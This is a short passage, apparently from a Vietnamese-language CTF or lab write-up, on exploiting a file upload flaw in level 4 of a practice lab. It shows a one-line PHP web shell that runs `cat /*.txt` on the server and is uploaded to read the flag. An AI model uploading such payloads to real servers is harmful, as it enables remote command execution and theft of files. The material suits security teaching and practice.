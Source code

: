 ![level-4-2](images/lab-cbjs/level-4/level-4-2.png)

Giờ thì chỉ cần tải lên file `exploit.flag`:

```php
<?php system("cat /*.txt"); ?>
```

Tải lên thành công, em truy cập theo đường dẫn tới file đã thấy được flag:

![level-4-3](images/lab-cbjs/level-4/level-4-3.png)
